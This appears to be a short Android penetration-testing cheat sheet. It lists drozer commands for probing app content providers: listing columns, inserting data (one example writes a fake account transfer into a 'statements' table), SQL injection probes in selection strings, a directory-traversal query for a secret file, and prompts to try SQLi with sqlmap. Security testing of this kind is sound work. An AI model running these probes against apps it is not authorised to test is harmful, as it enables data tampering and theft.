 ### inserting Data into vulnerable content providers
```
Getting the colums of content provider
--------------------------------------
 dz> run app.provider.columns [URI]




Inserting Data
--------------
dz> run app.provider.insert [URI] [--boolean [name] [value]] [--integer
[name] [value]] [--string [name] [value]]...


Example:
--------
dz> run app.provider.insert –-int _id 12 –-int from_account 31337
–-int to_account –-int amount 31337 content://com.example.
vulnerabledatabase.contentprovider/statements 


```

### Finding SQLi vulnerable Content Providers
```
dz> run app.provider.query [URI] –-selection "1=1" 
dz> run app.provider.query [URI] –-selection "1-1=0"
dz> run app.provider.query [URI] –-selection "0=0"

It should return all the values fromt the content provider.
```



### Directory Traversal in Content Providers
```
Check if app has read file system permission
Check if its vulnerable to Directory traversal
run app.provider.query content://uri../../../../secret.txt
```

```
Check if the developed has forgot to add signatures to the content provides
```

#### SQLI
``
Try SQLI on Login
Try SQLI in Register
Try Intercepting Traffic and pass requets to SQLMAP to check if requests are vulnerable
``
